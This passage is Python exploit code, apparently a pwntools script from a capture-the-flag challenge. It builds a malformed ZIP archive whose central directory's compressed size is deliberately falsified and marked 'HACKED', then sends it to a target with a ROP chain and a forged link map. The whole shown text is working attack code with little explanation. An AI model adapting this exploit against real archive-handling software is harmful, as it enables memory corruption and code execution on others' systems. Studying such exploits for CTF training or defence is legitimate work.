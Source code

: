 ```python
comp_size = len(comp_data)
len_file_name = 8  # for easier alignment
len_extra_field = 0
len_comment = 0

LFH = p32(0x04034b50)
LFH += PH * 14
LFH += p32(comp_size)  # Compressed size
LFH += PH * 4
LFH += p16(len_file_name)  # length file name
LFH += p16(len_extra_field)  # length of extra field
LFH += PH * len_file_name  # file name
LFH += PH * len_extra_field  # extra field

# 2. Make Central directory file header
CDFH = p32(0x02014b50)
CDFH += PH * 16
CDFH += p32(0x40)  # Compressed size, HACKED
CDFH += PH * 4
CDFH += p16(len_file_name)  # File name length
CDFH += p16(len_extra_field)  # Extra field length
CDFH += p16(len_comment)  # File comment length
CDFH += PH * 8
CDFH += p32(0)  # Relative offset of local file header.
CDFH += PH * len_file_name  # file name
CDFH += PH * len_extra_field  # extra field
CDFH += PH * len_comment  # comment

# 3. Make End of central directory record (EOCD)
cd_size = len(CDFH)
# Offset of start of central directory, relative to start of archive
cd_offset = len(LFH) + len(comp_data)

EOCD = p32(0x06054b50)  # End of central directory record
EOCD += PH * 6
# Total number of central directory records
EOCD += p16(1)
# Size of central directory (bytes)
EOCD += p32(cd_size)
# Offset of start of central directory, relative to start of archive
EOCD += p32(cd_offset)
EOCD += PH * 2

zip_file = LFH + comp_data + CDFH + EOCD
size_t = len(zip_file)

log.info(f'Finished making zip file, size: {size_t} bytes')

###############################################################################
# Execution
###############################################################################

log.info('-' * 50)

# Send size t
payload = str(size_t + 1).rjust(8, '0').encode()
io.send(payload)

# Send zip file with ROP
io.send(zip_file)

# Send fake link map
io.send(forge_data)
```